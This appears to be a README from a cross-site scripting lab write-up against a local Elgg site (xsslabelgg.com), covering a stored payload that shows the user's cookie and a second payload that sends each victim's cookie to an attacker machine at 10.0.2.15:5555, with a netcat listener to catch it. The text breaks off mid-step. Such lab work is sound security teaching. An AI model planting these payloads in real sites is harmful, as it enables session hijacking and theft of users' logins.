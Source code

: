 # Task 2
Edit the ```Brief description``` module and save:
```
<script>
  alert(document.cookie);
</script>
```
When accessing the profile page, it will show the cookie of the log-in user.

When Alice opens the page, it will be

![alt text](https://github.com/Asad-Ali-Code/Cross-Site-Scripting-Attack/blob/main/cookies.PNG)

# Task 3
Edit the ```Brief description``` as:
```
<script>
  document.write(
    "<img src=http://10.0.2.15:5555?c=" + escape(document.cookie) + " >"
  );
 </script>
```
It will send an HTTP GET request to the ```port 5555``` on the attacker with ```document.cookie``` whenever the profile page is accessed by any victim user.

Then listen on the port 5555 on the attacker machine:
```
nc -l 5555 -v
```
Once visiting the profile page ( http://www.xsslabelgg.com/profile/alice) from VM ```10.0.2.4```, then it will appear on the attacker:
